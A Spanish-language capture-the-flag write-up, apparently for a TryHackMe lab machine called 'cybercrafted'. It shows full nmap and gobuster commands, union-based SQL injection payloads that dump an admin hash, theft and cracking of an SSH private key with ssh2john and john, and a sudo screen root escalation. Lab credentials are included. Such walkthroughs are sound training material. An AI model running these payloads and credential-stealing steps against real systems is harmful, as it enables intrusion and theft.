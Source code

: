 ### Tags: `Virtual Hosting` `SQLI` `ssh2john`

# Escaneo (*22,80,25565*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn ip -oN escaneo
```
![image](https://github.com/user-attachments/assets/f0272aa8-5cfc-4150-a6fe-e7be9d396599)

# Web port80

Encontramos un dominio que lo añadimos sal  `etc/hosts`

![image](https://github.com/user-attachments/assets/9a964c02-b302-4e33-8090-8537bf3a52a8)

Ahora visualizamos la web y no había nada pero cuando hicimos `Ctrl + u` encontramos esto

![image](https://github.com/user-attachments/assets/c1ce8331-fd13-4d65-b70d-4a6d4ba51e1f)

## Gobuster (**subdominios**)

```ruby
gobuster vhost -u http://cybercrafted.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```

Encontramos estos subdominios los agregamos al `etc/hosts`

![image](https://github.com/user-attachments/assets/be7fc1ce-5590-4615-a596-478575e2909a)

En los 2 (que marcamos en rojo) había un **panel de login** que era el mismo --> (por este lado no es la vía)

![image](https://github.com/user-attachments/assets/99e08865-a65c-40cc-b483-4a6acd18f59c)

También había un subdominio `www.store.cybercrafted.thm` y haciendo Gobuster encontramos este `search.php`

![image](https://github.com/user-attachments/assets/17acaa2d-a341-45b2-9c2a-fa390f0cc92d)


```ruby
gobuster dir -u http://www.store.cybercrafted.thm/  -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php --no-error
```

![image](https://github.com/user-attachments/assets/40e00520-edb0-48ef-939c-e7e093ec3d1d)
![image](https://github.com/user-attachments/assets/51dca3c3-8ae7-4158-b14a-b2a6bc9b600b)

# SQLI (**BurpSuite**)

Observamos que es panel es a vulnerable `sql injection`, si poníamos `'or 1=1 -- -` nos muestra ítems que no aparecían antes. Interceptamos la petición con Burp y con `'order by 4-- -` supimos que había cuatro columnas.
Con este comando `'union select NULL,NULL,NULL,table_name FROM information_schema.tables -- -` observamos una tabla llamada `admin`

![image](https://github.com/user-attachments/assets/36d09945-f699-4884-80ed-2b5ad6936794)

Con este comando `'union select NULL,NULL,NULL,column_name FROM information_schema.columns where table_name = 'admin' -- -`  enumeramos las tablas de `admin`.

![image](https://github.com/user-attachments/assets/a8fb8bf0-294b-428f-90a8-8cf8e2bfec6a)

Obtenemos el hash y el user de esta forma: `'union select NULL,NULL,user,hash from admin -- -`

 ![image](https://github.com/user-attachments/assets/ea4f3a0a-8016-4219-a506-39add30328c1)

Tenemos un usuario y una contraseña que la Desencriptamos en [CrackStations](https://crackstation.net/) --> `xXUltimateCreeperXx : 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01`, `diamond123456789`

![image](https://github.com/user-attachments/assets/9aa6cb56-97bc-47c3-acef-61056f9c56dd)

Probamos las credenciales para el **panel** y funcionó!

![image](https://github.com/user-attachments/assets/90b65816-1b04-4722-a9d6-4e00e1f23a66)

# Explotación

Tamos dentro y tenemos ejecución de comandos 

![image](https://github.com/user-attachments/assets/aae57b06-18d3-43a9-9023-b137cb69a32d)

Listando el `etc/passwd` vemos 

![image](https://github.com/user-attachments/assets/d1e3d618-3b71-4d65-ab29-c15368de52a3)

Pudimos obtener la `id_rsa` de `xxultimatecreeperxx` 

```ruby 
cat /home/xxultimatecreeperxx/.ssh/id_rsa
```
![image](https://github.com/user-attachments/assets/2b5f035f-3e21-4597-a07c-419b3bf97c79)

Como esta encriptado hacemos lo siguiente:

```ruby
 ssh2john id_rsa > hash.txt
 john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Tenemos la contraseña `creepin2006` para conectarnos por SSH

![image](https://github.com/user-attachments/assets/6375f344-93dc-4da4-80d3-eb09e6c5493f)

## SSH

Nos conectamos por SSH como el user **xxultimatecreeperxx** y con la contraseña que encontramos anteriormente 

```css
 chmod 600 id_rsa
 ssh xxultimatecreeperxx@10.10.126.43 -i id_rsa
```
![image](https://github.com/user-attachments/assets/403ee93f-6537-461f-b9a4-2121b3846e78)

# Escalada (`cybercrafted`)

Dentro de `/opt` tenemos esto

![image](https://github.com/user-attachments/assets/73cc4f92-5518-4498-b3bb-c5aa1fdbaf31)

Encontramos la contraseña de *cybercrafted* en  un archivo llamado `log.txt` , `JavaEdition>Bedrock`

![image](https://github.com/user-attachments/assets/3057b981-55c1-4ae7-98fe-f9c2abc4b2db)
![image](https://github.com/user-attachments/assets/3a793de4-f81e-41f7-b038-4b175fce2fec)

# Escalada ROOT

Vemos que poniendo `sudo -l` tenemos esto esto que podemos ejecutar como root:

![image](https://github.com/user-attachments/assets/3a60cf66-d76e-4182-a2d8-5f49027b678e)

Buscando en internet en este [Enlace](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-screen-privilege-escalation/) nos dice que acceder como hay que hacer esto:

```ruby
 sudo /usr/bin/screen -r cybercrafted
 Ctrl+a+c
```

![image](https://github.com/user-attachments/assets/7893a598-1872-4613-9961-a9c1b3099d9c)

